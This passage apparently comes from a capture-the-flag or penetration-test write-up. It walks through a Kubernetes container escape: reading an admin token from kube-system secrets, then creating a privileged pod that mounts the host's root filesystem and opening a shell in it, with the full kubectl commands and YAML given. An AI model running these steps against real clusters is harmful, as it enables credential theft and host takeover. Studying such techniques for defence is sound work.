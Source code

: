 Listing the _secrets_ from _kube-system_:
```
./kubectl get secrets -n kube-system
```

There are many secrets, but the _c-admin-token-9mn8w_ sounds especially interesting:
```
./kubectl describe secrets c-admin-token-9mn8w -n kube-system
```

With this token it is possible to create pods:
```
./kubectl --token=$(cat /tmp/token) auth can-i create pods -n kube-system
```

With this permission, we can create a pod with the disk of the host mounted to it and then modify files there to move to the host system.

Creating YAML file _pod.yml_ that contains all configurations for the new pod:
```yml
apiVersion: v1
kind: Pod
metadata:
  name: alpine
  namespace: kube-system
spec:
  containers:
  - name: evilpod
    imagePullPolicy: Never
    image: localhost:5000/dev-alpine
    command: ["/bin/sh"]
    args: ["-c", "sleep 300000"]
    volumeMounts:
    - mountPath: /mnt
      name: hostfs
  volumes:
  - name: hostfs
    hostPath:
      path: /
  automountServiceAccountToken: true
  hostNetwork: true
```

Creating new pod with YAML file:
```
./kubectl --token=$(cat /tmp/token) apply -f pod.yml
```

Making sure it runs successfully:
```
./kubectl --token=$(cat /tmp/token) get pods -n kube-system

NAME        READY   STATUS        RESTARTS       AGE
alpine      1/1     Running       0              1m
```

Starting a shell in the new pod:
```
./kubectl exec alpine --stdin --tty -n kube-system --token=$(cat /tmp/token) -- /bin/sh
```
